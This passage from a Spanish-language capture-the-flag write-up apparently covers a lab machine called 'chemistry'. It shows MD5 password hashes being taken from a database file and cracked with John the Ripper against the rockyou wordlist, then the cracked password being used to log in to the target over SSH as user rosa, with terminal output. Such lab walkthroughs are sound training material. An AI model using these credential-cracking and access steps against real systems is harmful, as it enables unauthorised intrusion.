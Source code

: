     la cual tiene un archivo **database.db.** Si lo miramos, encontramos diferentes **hashes** de varios usuarios que podemos intentar romper con John.

    ```python

    john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  

    Using default input encoding: UTF-8
    Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ********** (?)     
    1g 0:00:00:00 DONE (2024-11-24 17:38) 1.162g/s 16678Kp/s 16678Kc/s 36823KC/s  fuckyooh21..*7¡Vamos!
    Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
    Session completed. 

    ```

    Una vez que tenemos la contraseña del usuario Rosa, podemos intentar acceder por SSH.    
   
    ```python
      ssh rosa@10.10.11.38
      rosa@10.10.11.38's password: 
      Permission denied, please try again.
      rosa@10.10.11.38's password: 
      Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

      * Documentation:  https://help.ubuntu.com
      * Management:     https://landscape.canonical.com
      * Support:        https://ubuntu.com/pro

      System information as of Sun 24 Nov 2024 10:14:54 PM UTC

        System load:           0.0
        Usage of /:            73.9% of 5.08GB
        Memory usage:          33%
        Swap usage:            0%
        Processes:             222
        Users logged in:       0
        IPv4 address for eth0: 10.10.11.38
        IPv6 address for eth0: dead:beef::250:56ff:feb9:2fc5


      Expanded Security Maintenance for Applications is not enabled.

      0 updates can be applied immediately.

      9 additional security updates can be applied with ESM Apps.
      Learn more about enabling ESM Apps service at https://ubuntu.com/esm


      The list of available updates is more than a week old.
      To check for new updates run: sudo apt update
      Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

      rosa@chemistry:~$ 

    ```
  